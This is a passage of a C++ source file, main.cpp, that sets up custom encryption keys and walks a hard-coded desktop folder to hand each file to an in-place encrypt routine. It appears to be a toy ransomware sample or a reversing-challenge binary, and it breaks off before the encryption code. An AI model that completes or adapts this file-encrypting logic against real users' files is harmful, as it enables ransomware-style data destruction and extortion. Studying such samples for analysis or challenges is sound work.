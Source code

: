 File `main.cpp`:

```C++
#include <stdio.h>
#include <Windows.h>
#include <string.h>
#include <time.h>

#define MIN(a, b) ((a) < (b) ? (a) : (b))
#define err(fmt, ...) fprintf(stderr, fmt, __VA_ARGS__)

#define FREAD_BLOCK_SIZE  (2048)
#define FWRITE_BLOCK_SIZE (2048)
#define ENC_BLOCK_SIZE (2)
#define ENC_NUM_ROUND (64)
#define KEY_SIZE (4)

const char* getExtension(const char* szPath);
void enumFilesAndFolders(const char* szPath, void(*encryptFunc)(const char*, unsigned int));
void encrypt1(unsigned int nRound, unsigned char v[ENC_BLOCK_SIZE], unsigned char key[KEY_SIZE]);
void encrypt2(unsigned char* data, unsigned int dataLength, unsigned char* key, unsigned int keyLength);
void encrypt(const char* szPath, unsigned int fileSize);
void initKey();

static unsigned char g_key1[KEY_SIZE];
static unsigned int g_key2;

int main(int argc, char* argv[])
{
	initKey();
	enumFilesAndFolders("C:\\Users\\xikhud\\Desktop\\EncFolder", encrypt);
	return 0;
}

const char* getExtension(const char* szPath)
{
	int i = strlen(szPath) - 1;
	while (i >= 0 && szPath[i] != '.')
		--i;
	if (i < 0)
		return NULL;
	return (szPath + i + 1);
}

void enumFilesAndFolders(const char* szPath, void(*encryptFunc)(const char*, unsigned int))
{
	if (strlen(szPath) > 250)
		return;
	char szTmpPath[260];
	strcpy(szTmpPath, szPath);
	strcat(szTmpPath, "\\*"); // strlen(szPath) + strlen("\\*") must < MAX_PATH (which is 260)

	WIN32_FIND_DATA file;
	HANDLE hFind = FindFirstFileA(szTmpPath, &file);
	if (hFind == INVALID_HANDLE_VALUE)
	{
		err("[+] Invalid handle\n");
		return;
	}
	do
	{
		const char* szFileName = file.cFileName;
```